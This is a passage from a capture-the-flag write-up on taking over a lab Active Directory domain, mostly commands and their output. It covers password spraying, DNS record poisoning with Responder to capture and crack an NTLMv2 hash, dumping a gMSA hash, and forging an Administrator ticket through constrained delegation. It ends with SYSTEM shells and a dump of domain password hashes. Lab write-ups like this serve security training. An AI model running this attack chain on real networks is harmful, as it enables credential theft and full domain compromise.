2020-01-10-upload.txt  2020-04-02-upload.txt  2020-06-08-upload.txt  2020-08-09-upload.txt  2020-11-03-upload.txt
2020-01-20-upload.pdf  2020-04-04-upload.pdf  2020-06-12-upload.pdf  2020-08-19-upload.pdf  2020-11-06-upload.pdf
2020-01-20-upload.txt  2020-04-04-upload.txt  2020-06-12-upload.txt  2020-08-19-upload.txt  2020-11-06-upload.txt
2020-01-22-upload.pdf  2020-04-15-upload.pdf  2020-06-14-upload.pdf  2020-08-20-upload.pdf  2020-11-10-upload.pdf
2020-01-22-upload.txt  2020-04-15-upload.txt  2020-06-14-upload.txt  2020-08-20-upload.txt  2020-11-10-upload.txt
2020-01-23-upload.pdf  2020-04-23-upload.pdf  2020-06-15-upload.pdf  2020-09-02-upload.pdf  2020-11-11-upload.pdf
2020-01-23-upload.txt  2020-04-23-upload.txt  2020-06-15-upload.txt  2020-09-02-upload.txt  2020-11-11-upload.txt
2020-01-25-upload.pdf  2020-05-01-upload.pdf  2020-06-21-upload.pdf  2020-09-04-upload.pdf  2020-11-13-upload.pdf
2020-01-25-upload.txt  2020-05-01-upload.txt  2020-06-21-upload.txt  2020-09-04-upload.txt  2020-11-13-upload.txt
2020-01-30-upload.pdf  2020-05-03-upload.pdf  2020-06-22-upload.pdf  2020-09-05-upload.pdf  2020-11-24-upload.pdf
2020-01-30-upload.txt  2020-05-03-upload.txt  2020-06-22-upload.txt  2020-09-05-upload.txt  2020-11-24-upload.txt
2020-02-11-upload.pdf  2020-05-07-upload.pdf  2020-06-25-upload.pdf  2020-09-06-upload.pdf  2020-11-30-upload.pdf
2020-02-11-upload.txt  2020-05-07-upload.txt  2020-06-25-upload.txt  2020-09-06-upload.txt  2020-11-30-upload.txt
2020-02-17-upload.pdf  2020-05-11-upload.pdf  2020-06-26-upload.pdf  2020-09-11-upload.pdf  2020-12-10-upload.pdf
2020-02-17-upload.txt  2020-05-11-upload.txt  2020-06-26-upload.txt  2020-09-11-upload.txt  2020-12-10-upload.txt
2020-02-23-upload.pdf  2020-05-17-upload.pdf  2020-06-28-upload.pdf  2020-09-13-upload.pdf  2020-12-15-upload.pdf
2020-02-23-upload.txt  2020-05-17-upload.txt  2020-06-28-upload.txt  2020-09-13-upload.txt  2020-12-15-upload.txt
2020-02-24-upload.pdf  2020-05-20-upload.pdf  2020-06-30-upload.pdf  2020-09-16-upload.pdf  2020-12-20-upload.pdf
2020-02-24-upload.txt  2020-05-20-upload.txt  2020-06-30-upload.txt  2020-09-16-upload.txt  2020-12-20-upload.txt
2020-02-28-upload.pdf  2020-05-21-upload.pdf  2020-07-02-upload.pdf  2020-09-22-upload.pdf  2020-12-24-upload.pdf
2020-02-28-upload.txt  2020-05-21-upload.txt  2020-07-02-upload.txt  2020-09-22-upload.txt  2020-12-24-upload.txt
2020-03-04-upload.pdf  2020-05-24-upload.pdf  2020-07-06-upload.pdf  2020-09-27-upload.pdf  2020-12-28-upload.pdf
2020-03-04-upload.txt  2020-05-24-upload.txt  2020-07-06-upload.txt  2020-09-27-upload.txt  2020-12-28-upload.txt
2020-03-05-upload.pdf  2020-05-29-upload.pdf  2020-07-08-upload.pdf  2020-09-29-upload.pdf  2020-12-30-upload.pdf
2020-03-05-upload.txt  2020-05-29-upload.txt  2020-07-08-upload.txt  2020-09-29-upload.txt  2020-12-30-upload.txt
2020-03-12-upload.pdf  2020-06-02-upload.pdf  2020-07-20-upload.pdf  2020-09-30-upload.pdf
2020-03-12-upload.txt  2020-06-02-upload.txt  2020-07-20-upload.txt  2020-09-30-upload.txt
```

With text files, now we search for key words like 'password' to see if we find anything interesting.

```
$ for i in $(ls *.txt); do echo $i; grep password $i -B5 -A5; done  
...

2020-06-03-upload.txt
2020-06-04-upload.txt
New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876
After logging in please change your password as soon as possible.

2020-06-07-upload.txt
2020-06-08-upload.txt
...
```


Let's save this password on a file.

```
$ cd ..
$ nano password.txt
```

```
NewIntelligenceCorpUser9876
```

```
$ cat passwords.txt 
NewIntelligenceCorpUser9876
```

Ok, now we have a possible password, but we still need user names.

From the PDFs, we can extract the names of the individuals who create the files.

```
$ cd PDF
$ exiftool *.pdf | grep Creator | awk '{print $3}' | sort -u
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

Save the user name list on a text file such as 'users.txt'

```
$ cd ..
$ nano users.txt
```

```
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```


```
$ cat users.txt
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

Let's try to test the password with found, with all these users to see if any is able to connect into the host – password spray technique.

```
$ for i in $(cat users.txt); do echo "NewIntelligenceCorpUser9876" | rpcclient -U "intelligence/$i" -c "getusername;quit" dc.intelligence.htb 2>/dev/null; done | grep 'Authority Name' 
Account Name: Tiffany.Molina, Authority Name: intelligence
```

Or we could use `crackmapexec` to do the same.

```
$ crackmapexec smb dc.intelligence.htb -u users.txt -p passwords.txt --continue-on-success
SMB         dc.intelligence.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Anita.Roberts:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Brian.Baker:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Brian.Morris:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Daniel.Shelton:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Danny.Matthews:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Darryl.Harris:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\David.Mcbride:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\David.Reed:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\David.Wilson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Ian.Duncan:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Jason.Patterson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Jason.Wright:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Jennifer.Thomas:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Jessica.Moody:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\John.Coleman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Jose.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Kaitlyn.Zimmerman:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Kelly.Long:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Nicole.Brock:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Richard.Williams:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Samuel.Richardson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Stephanie.Young:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Teresa.Williamson:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Thomas.Hall:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Thomas.Valenzuela:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Travis.Evans:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\Veronica.Patel:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE 
SMB         dc.intelligence.htb 445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
```

| Username | Password |
| --- | --- |
| Tiffany.Molina | NewIntelligenceCorpUser9876 |

Searching for shares on the host we see an interesting one called 'IT'.

```
$ smbclient --list //dc.intelligence.htb -U intelligence/Tiffany.Molina%NewIntelligenceCorpUser9876 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to dc.intelligence.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

or

```
$ smbmap -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -H dc.intelligence.htb
[+] IP: dc.intelligence.htb:445 Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```


```
$ crackmapexec smb dc.intelligence.htb -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --shares             
SMB         dc.intelligence.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         dc.intelligence.htb 445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
SMB         dc.intelligence.htb 445    DC               [+] Enumerated shares
SMB         dc.intelligence.htb 445    DC               Share           Permissions     Remark
SMB         dc.intelligence.htb 445    DC               -----           -----------     ------
SMB         dc.intelligence.htb 445    DC               ADMIN$                          Remote Admin
SMB         dc.intelligence.htb 445    DC               C$                              Default share
SMB         dc.intelligence.htb 445    DC               IPC$            READ            Remote IPC
SMB         dc.intelligence.htb 445    DC               IT              READ            
SMB         dc.intelligence.htb 445    DC               NETLOGON        READ            Logon server share 
SMB         dc.intelligence.htb 445    DC               SYSVOL          READ            Logon server share 
SMB         dc.intelligence.htb 445    DC               Users           READ
```

Inside 'IT' we see a PowerShell script that may be interesting.
```
$ mkdir smb
$ cd smb
$ smbclient //dc.intelligence.htb/IT -U intelligence/Tiffany.Molina%NewIntelligenceCorpUser9876 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr 18 17:50:55 2021
  ..                                  D        0  Sun Apr 18 17:50:55 2021
  downdetector.ps1                    A     1046  Sun Apr 18 17:50:55 2021

                3770367 blocks of size 4096. 1450613 blocks available
smb: \> get downdetector.ps1 
getting file \downdetector.ps1 of size 1046 as downdetector.ps1 (3.3 KiloBytes/sec) (average 3.3 KiloBytes/sec)
smb: \> exit
cd ..
```

```
$ cat smb/downdetector.ps1 
��# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
The script seems to be searching from DNS entries with "web*" in their names and then performing an authenticated web request to see if the site is up or down. 


We can validate this adding a DNS entry starting with 'web' in its name, pointing to our IP (10.10.14.14 in this case) while we have a 'Responder' listening in port 80 to see if any request gets there. 

To add the DNS entry we can use python script [dnstool.py](https://github.com/dirkjanm/krbrelayx). 

```
$ /opt/krbrelayx/dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -r webkali1.intelligence.htb -a add -t A -d 10.10.14.14 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

We can verify the new DNS entry with nslookup. 
```
$ nslookup webkali1.intelligence.htb 10.10.10.248 
Server:         10.10.10.248
Address:        10.10.10.248#53

Name:   webkali1.intelligence.htb
Address: 10.10.14.14
```

Now we can start 'Responder' and wait.
```
$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.14]
    Responder IPv6             [dead:beef:2::100c]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-JN9QMO7O7SF]
    Responder Domain Name      [2O7M.LOCAL]
    Responder DCE-RPC Port     [45460]

[+] Listening for events...
```

Soon we get the following on the output.
```
...
[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:8fa80a63f3e43368:B2DB535B88553121FDA211BF08BA3221:010100000000000002A76B188EEED801ED34F60177363A2B000000000200080032004F0037004D0001001E00570049004E002D004A004E00390051004D004F0037004F003700530046000400140032004F0037004D002E004C004F00430041004C0003003400570049004E002D004A004E00390051004D004F0037004F003700530046002E0032004F0037004D002E004C004F00430041004C000500140032004F0037004D002E004C004F00430041004C000800300030000000000000000000000000200000DE583EF2A01B59439AD5E5443F395A87382DC127A9A5716EA5D2E589DC9A46950A0010000000000000000000000000000000000009003C0048005400540050002F007700650062006B0061006C00690031002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

`Responder` logs should have a file with captured hash.

```
$ ls -lha /usr/share/responder/logs 
total 36K
drwxr-xr-x 2 root root 4.0K Nov  1 17:38 .
drwxr-xr-x 9 root root 4.0K Nov  1 17:43 ..
-rw-r--r-- 1 root root    0 Nov  1 17:38 Analyzer-Session.log
-rw-r--r-- 1 root root  14K Nov  1 17:38 Config-Responder.log
-rw-r--r-- 1 root root 2.2K Nov  1 17:43 HTTP-NTLMv2-10.10.10.248.txt
-rw-r--r-- 1 root root   92 Nov  1 17:43 Poisoners-Session.log
-rw-r--r-- 1 root root 1.2K Nov  1 17:43 Responder-Session.log
```

```
$ cat /usr/share/responder/logs/HTTP-NTLMv2-10.10.10.248.txt 
Ted.Graves::intelligence:8fa80a63f3e43368:B2DB535B88553121FDA211BF08BA3221:010100000000000002A76B188EEED801ED34F60177363A2B000000000200080032004F0037004D0001001E00570049004E002D004A004E00390051004D004F0037004F003700530046000400140032004F0037004D002E004C004F00430041004C0003003400570049004E002D004A004E00390051004D004F0037004F003700530046002E0032004F0037004D002E004C004F00430041004C000500140032004F0037004D002E004C004F00430041004C000800300030000000000000000000000000200000DE583EF2A01B59439AD5E5443F395A87382DC127A9A5716EA5D2E589DC9A46950A0010000000000000000000000000000000000009003C0048005400540050002F007700650062006B0061006C00690031002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

Let's run `john` to crack the hash.
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt /usr/share/responder/logs/HTTP-NTLMv2-10.10.10.248.txt
Using default input encoding: UTF-8
Loaded 1 password hashes with 2 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)     
2g 0:00:00:10 DONE (2022-11-01 17:50) 0.1819g/s 984307p/s 1968Kc/s 1968KC/s Mrz.deltasigma..MondayMan7
Warning: passwords printed above might not be all those cracked
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Let's checks if the password really works.
```
$ crackmapexec smb dc.intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy'         
SMB         dc.intelligence.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         dc.intelligence.htb 445    DC               [+] intelligence.htb\Ted.Graves:Mr.Teddy
```

| Username | Password |
| --- | --- |
| Tiffany.Molina | NewIntelligenceCorpUser9876 |
| Ted.Graves | Mr.Teddy |

But we don't see much more than we get with Tiffany user.
```
$ crackmapexec smb dc.intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' --shares
SMB         dc.intelligence.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         dc.intelligence.htb 445    DC               [+] intelligence.htb\Ted.Graves:Mr.Teddy 
SMB         dc.intelligence.htb 445    DC               [+] Enumerated shares
SMB         dc.intelligence.htb 445    DC               Share           Permissions     Remark
SMB         dc.intelligence.htb 445    DC               -----           -----------     ------
SMB         dc.intelligence.htb 445    DC               ADMIN$                          Remote Admin
SMB         dc.intelligence.htb 445    DC               C$                              Default share
SMB         dc.intelligence.htb 445    DC               IPC$            READ            Remote IPC
SMB         dc.intelligence.htb 445    DC               IT              READ            
SMB         dc.intelligence.htb 445    DC               NETLOGON        READ            Logon server share 
SMB         dc.intelligence.htb 445    DC               SYSVOL          READ            Logon server share 
SMB         dc.intelligence.htb 445    DC               Users           READ
```

Let's run `bloodhound` to get more details from the domain.

```
$ mkdir bloodhound
$ cd bloodhound
$ bloodhound-python -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -c All -u Ted.Graves -p Mr.Teddy 
INFO: Found AD domain: intelligence.htb
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.intelligence.htb
INFO: Found 43 users
INFO: Found 55 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: svc_int.intelligence.htb
INFO: Querying computer: dc.intelligence.htb
WARNING: Could not resolve: svc_int.intelligence.htb: The resolution lifetime expired after 3.203 seconds: Server 10.10.10.248 UDP port 53 answered The DNS operation timed out.; Server 10.10.10.248 UDP port 53 answered The DNS operation timed out.
INFO: Done in 00M 14S
$ cd ..
```

Start bloodhound and neo4j console
```
sudo neo4j console &
bloodhound &
```

Import the files we have just collected.


- from Ted.Graves



...


To exploit [ReadGMSAPassword](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#readgmsapassword), we can use [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper).

```
$ /opt/microsoft/ad/gMSADumper/gMSADumper.py  -u Ted.Graves -p Mr.Teddy -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::4aa758209122662dc0ee185e58211b7a
svc_int$:aes256-cts-hmac-sha1-96:f8ba15b8f4b71404cd2e40d32b613085e5a909690ba59b1319b7ddf35751737f
svc_int$:aes128-cts-hmac-sha1-96:52805df5585329f7ff05b3d7912df3ae
```

It dumps the SVC_INT hash. 

 

We can confirm that it is valid using `crackmapexec` or `smbclient`. 
```
$ crackmapexec smb dc.intelligence.htb -u svc_int$ -H 4aa758209122662dc0ee185e58211b7a
SMB         dc.intelligence.htb 445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         dc.intelligence.htb 445    DC               [+] intelligence.htb\svc_int$:4aa758209122662dc0ee185e58211b7a
```

```
$ smbclient --list //dc.intelligence.htb/ -U intelligence/svc_int$ --password=4aa758209122662dc0ee185e58211b7a --pw-nt-hash

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        IT              Disk      
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to dc.intelligence.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

As `svc_int$` is [AllowedToDelegate](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#allowedtodelegate) on `WWW/dc.intelligence.htb` we can use it to impersonate the Administrator for the SPN machine (in this case the dc).

Before we generate the impersonated ticket, we need to sync the time of our machine with the domain controller. For that we may stop Kali current time sync configuration (remember to enable it back later) and run `ntpdate` to sync the clock with the target DC.
```
$ timedatectl                          
               Local time: Wed 2022-11-02 00:46:23 PDT
           Universal time: Wed 2022-11-02 07:46:23 UTC
                 RTC time: Wed 2022-11-02 07:46:23
                Time zone: US/Pacific (PDT, -0700)
System clock synchronized: yes
              NTP service: active
          RTC in local TZ: no

$ sudo timedatectl set-ntp off

$ timedatectl                
               Local time: Wed 2022-11-02 00:47:03 PDT
           Universal time: Wed 2022-11-02 07:47:03 UTC
                 RTC time: Wed 2022-11-02 07:47:03
                Time zone: US/Pacific (PDT, -0700)
System clock synchronized: yes
              NTP service: inactive
          RTC in local TZ: no

$ date; sudo ntpdate -u 10.10.10.248; date;
Wed Nov  2 07:47:19 AM PDT 2022
2022-11-02 07:47:20.31328 (-0700) -0.000367 +/- 0.037542 10.10.10.248 s1 no-leap
Wed Nov  2 07:47:20 AM PDT 2022

$ timedatectl 
               Local time: Wed 2022-11-02 07:52:44 PDT
           Universal time: Wed 2022-11-02 14:52:44 UTC
                 RTC time: Wed 2022-11-02 07:52:44
                Time zone: US/Pacific (PDT, -0700)
System clock synchronized: no
              NTP service: inactive
          RTC in local TZ: no
```

Now we can generate the impersonated ticket.
```
$ /usr/share/doc/python3-impacket/examples/getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes 4aa758209122662dc0ee185e58211b7a:4aa758209122662dc0ee185e58211b7a       
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

After that you have a few options.
- with `impacket-psexec`
```
$ KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass intelligence.htb/Administrator@dc.intelligence.htb 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file OoiyAydQ.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service Wats on dc.intelligence.htb.....
[*] Starting service Wats.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


- with `psexec.py`
```
$ KRB5CCNAME=Administrator.ccache /usr/share/doc/python3-impacket/examples/psexec.py -k -dc-ip 10.10.10.248 -no-pass administrator@dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file cmjxLSsE.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service qjbG on dc.intelligence.htb.....
[*] Starting service qjbG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

- OR we can dump the hashes with `secretsdump.py` and use one of the pass the hash tools.
```
$ KRB5CCNAME=Administrator.ccache /usr/share/doc/python3-impacket/examples/secretsdump.py -k -no-pass dc.intelligence.htb -just-dc 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9075113fe16cf74f7c0f9b27e882dad3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9ce5f83a494226352bca637e8c1d6cb6:::
intelligence.htb\Danny.Matthews:1103:aad3b435b51404eeaad3b435b51404ee:9112464222be8b09d663916274dd6b61:::
intelligence.htb\Jose.Williams:1104:aad3b435b51404eeaad3b435b51404ee:9e3dbd7d331c158da69905a1d0c15244:::
intelligence.htb\Jason.Wright:1105:aad3b435b51404eeaad3b435b51404ee:01295a54d60d3d2498aa12d5bbdea996:::
...
DC$:1000:aad3b435b51404eeaad3b435b51404ee:c1c1024cdd6b75a729f24c0b1c9617c6:::
svc_int$:1144:aad3b435b51404eeaad3b435b51404ee:4aa758209122662dc0ee185e58211b7a:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:75dcc603f2d2f7ab8bbd4c12c0c54ec804c7535f0f20e6129acc03ae544976d6
Administrator:aes128-cts-hmac-sha1-96:9091f2d145cb1a2ea31b4aca287c16b0
Administrator:des-cbc-md5:2362bc3191f23732
krbtgt:aes256-cts-hmac-sha1-96:99d40a110afcd64282082cf9d523f11f65b3d142078c1f3121d7fbae9a8c3a26
krbtgt:aes128-cts-hmac-sha1-96:49b9d45a7dd5422ad186041ba9d86a7e
krbtgt:des-cbc-md5:a237bfc8f7b58579
intelligence.htb\Danny.Matthews:aes256-cts-hmac-sha1-96:3470fddc02448815f231bf585fc00165304951d3b04414222be904af7c925473
intelligence.htb\Danny.Matthews:aes128-cts-hmac-sha1-96:72961eb071e69b594f649b2f0cfb38cf
intelligence.htb\Danny.Matthews:des-cbc-md5:98f7736bcb9dc81f
intelligence.htb\Jose.Williams:aes256-cts-hmac-sha1-96:e733cfef56e3fd37eadb3a8b2f0845c2d014ee26892680ed8878632e5019c4ab
